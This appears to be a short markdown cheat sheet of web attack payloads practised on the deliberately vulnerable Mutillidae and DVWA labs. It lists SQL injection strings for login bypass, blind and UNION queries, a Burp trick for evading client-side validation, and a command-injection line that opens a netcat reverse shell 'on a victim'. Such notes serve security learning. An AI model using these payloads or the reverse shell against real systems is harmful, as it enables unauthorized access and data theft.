 ### Testing for SQLi
````
admin' #
````

````
' or 1=1--'
````


### Testing for Blind Query SQLi
* Blind SQLi queries the database for true and false questions and evaluates the responses from the web server.
* %23 is # encoded. This is used when injecting into the browser.
````
1' and 1=1
1' order by 1#
1' order by 1%23
````

* The following is a password that will execute, although the password is wrong. This is because or 1=1 is always a true statement.
* Executed on Mutillidae
````
aaa' or 1=1 #
````

### Client Side Filtering
* When executing a SQLi you may receive an error message stating some characters in your password/username are blocked.
* Fire up Burp. And execute the SQLi again. You'll notice that Burp hasn't captured any traffic. This confirms that input validation is being done on the client side.
* Submit a syntactically correct password and intercept the request with Burp. Now you can perform the SQLi since the request has passed client side validation.



### Testing for Union Query SQLi
* Also attempt to inject without the quote. Stricter security protocols will be looking for illegal characters that will even pick up encodings
````
1' union select table_name, 2 from information_schema.tables
````

### SQLi with SQLMap


### Command Injection
* This test was done via DVWA on medium security setting

* Pipe commands from the former into the latter
````
ls | pwd
````

* This method can be used to get a shell on a victim
````
192.168.1.111 | nc -e /bin/sh 192.168.1.111 8080
````


